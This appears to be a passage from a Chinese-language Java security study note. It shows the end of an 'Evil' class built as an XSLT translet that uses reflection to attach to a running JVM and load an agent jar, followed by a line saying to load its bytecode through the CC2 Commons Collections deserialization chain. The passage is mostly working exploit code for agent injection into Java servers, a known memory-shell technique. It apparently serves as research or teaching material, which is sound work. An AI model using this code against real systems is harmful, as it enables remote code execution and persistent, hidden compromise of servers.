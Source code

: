 ```java
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id", null);
                    String id = (String) getId.invoke(o, null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach", new Class[]{String.class});
                    Object vm = attach.invoke(o, new Object[]{id});
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent", new Class[]{String.class});
                    loadAgent.invoke(vm, new Object[]{path});
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach", null);
                    detach.invoke(vm, null);
                    System.out.println("Agent.jar Inject Success !!");
                    break;
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

之后再使用 CC2 去加载这个 Evil 类的字节码就行了。

![image-20240313120236311](R:\languages\Java\study\Agent_Tech\pic\image-20240313120236311.png)






















